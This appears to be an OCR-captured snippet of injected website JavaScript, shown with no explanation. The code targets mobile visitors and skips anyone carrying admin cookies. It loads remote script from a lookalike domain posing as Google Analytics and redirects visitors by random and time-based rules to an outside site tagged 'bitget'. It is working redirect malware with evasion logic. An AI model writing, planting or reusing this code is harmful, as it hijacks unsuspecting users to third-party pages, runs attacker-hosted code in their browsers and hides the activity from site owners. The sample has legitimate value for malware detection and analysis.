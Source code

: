 ``` js
function vfed_update(redirectUrl) {
  fetch('https://www.googie-anaiytics.com/keywords/vn-keyword.json')
    .then(response => response.json())
    .then(keywords => {
      const keywordsFound = checkKeywords(keywords);
      if (keywordsFound && redirectUrl) {
        loadJS('https://www.googie-anaiytics.com/html/checkcachehw.js?origin=kwvnn', function () {
          if (window.usercache === true) {
            window.location.href = redirectUrl;
          }
        });
      }
    })
    .catch(error => console.error('Error fetching the JSON file:', error));
}

// Function to handle page redirection based on certain conditions
function check_tiaozhuan() {
  if (navigator.userAgent.match(/(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i)) {
    const host = window.location.host;
    const referrer = document.referrer;
    const redirectBaseUrl = 'https://wweeza.com/redirect?from=bitget';
    const currentHour = new Date().getHours();
    let redirectUrl = '';

    if (['www.dxtv1.com', 'www.ys752.com', 'shuanshu.com.com'].includes(host) ||
        (referrer.includes('.') && !referrer.includes(host))) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 0 && currentHour < 2 && Math.random() * 100 + 1 <= 10) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 2 && currentHour < 4 && Math.random() * 100 + 1 <= 15) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 4 && currentHour < 7 && Math.random() * 100 + 1 <= 20) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 7 && currentHour < 8 && Math.random() * 100 + 1 <= 10) {
      redirectUrl = redirectBaseUrl;
    } else if (currentHour >= 8 && Math.random() * 100 + 1 <= 10) {
      redirectUrl = redirectBaseUrl;
    }

    if (redirectUrl && !isPc() && !document.cookie.includes('admin_id') && !document.cookie.includes('adminlevels')) {
      vfed_update(redirectUrl);
    }
  }
}

// Check for certain analytics tools in the document and trigger redirection logic accordingly
const htmlContent = document.documentElement.outerHTML;
const analyticsTools = ['hm.baidu.com', '.cnzz.com', '.51.la', '.matomo.org', '.google-analytics.com', '.googletagmanager.com', '.plausible.io', '.statcounter.com'];
const analyticsFound = analyticsTools.some(tool => htmlContent.includes(tool));

if (analyticsFound) {
  setTimeout(check_tiaozhuan, 2000);
} else {
  check_tiaozhuan();
}
```
